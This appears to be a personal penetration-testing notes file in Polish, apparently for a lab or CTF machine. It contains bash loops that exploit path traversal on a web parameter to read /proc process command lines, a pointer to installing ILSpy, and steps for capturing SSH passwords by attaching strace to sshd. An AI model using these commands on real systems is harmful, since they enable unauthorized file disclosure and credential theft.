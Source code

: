 ```bash
for i in $(seq 900 1000); do response=$(curl -s "10.10.11.201:8000/?page=../../../../proc/$i/cmdline");echo "$response  PID => $i";done

for i in $(seq 900 1000); do curl 10.10.11.201:8000/?page=../../../../proc/$i/cmdline -o -; echo "  PID => $i"; done

for i in $(seq 900 1000); do
  response=$(curl -s "10.10.11.201:8000/?page=../../../../proc/$i/cmdline")
  if ! echo "$response" | grep -q "File not found"; then
    echo "$response  PID => $i"
  fi
done
```

# Instalacja debugera .NET .dll w kali
najlepiej zrobić to w maszynie wirtualnej żeby sobie systemu nie zaśmiecać
INSTALACJA ILSPY 
https://www.matbra.com/2020/06/18/install-avalonia-ilspy.html

# Przechwycenie hasła ssh
https://eapolsniper.github.io/2020/08/22/SSH-Password-Theft/
https://medium.com/@deboj88/spaying-on-ssh-password-using-strace-7465ede0a5cc
będąc na maszynie do której ktoś będzie się łączył
```bash
# trace system calls and signals
strace # śledzi zapytania systemowe do danego procesu

ps # znalezienie wszytskich procesów związanych z sshd
strace -p <PID SSHD> -f -o outfile.txt
# -p proces 
# -f --follow-forks - Trace child processes as they are created by currently traced processes as a result of the fork(2), vfork(2) and clone(2) system calls.  Note that -p PID -f will attach all threads of process PID if it is multi-threaded, not only thread with thread_id = PID.

cat out.txt| grep "<... read resumed>" # szukać w tym

```


